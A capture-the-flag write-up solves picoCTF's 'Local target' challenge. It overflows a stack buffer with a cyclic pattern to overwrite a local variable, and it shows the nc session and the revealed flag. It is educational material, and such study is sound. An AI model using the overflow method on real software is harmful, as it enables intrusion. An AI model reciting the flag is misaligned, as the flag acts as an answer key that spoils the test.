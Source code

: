 # Local target
The problem statement:
```
Smash the stack Can you overflow the buffer and modify the other local variable? The program is available here. You can view source here. And connect with it using: nc saturn.picoctf.net 62971
```

If we just run the file, it says num is 64. But if we enter string, num changes.

```
$ ./local-target
Enter a string: a

num is 64
Bye!
$ ./local-target
Enter a string: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

num is 1633771873
Bye!
```
On gdb, we can use an online tool to generate a string for us that will help us figure out the length of the string that is accepted. So for that, I'll use a website (https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html).
```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```
After messing around a bit to find out where the overflow occurs, I just got the necessary string by a bit of luck :P
```
f$ nc saturn.picoctf.net 62971
Enter a string: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7A

num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_fee8ef05}
```
That happened is that that overflow part is being converted to ascii, so if we put in A, num becomes 65. :D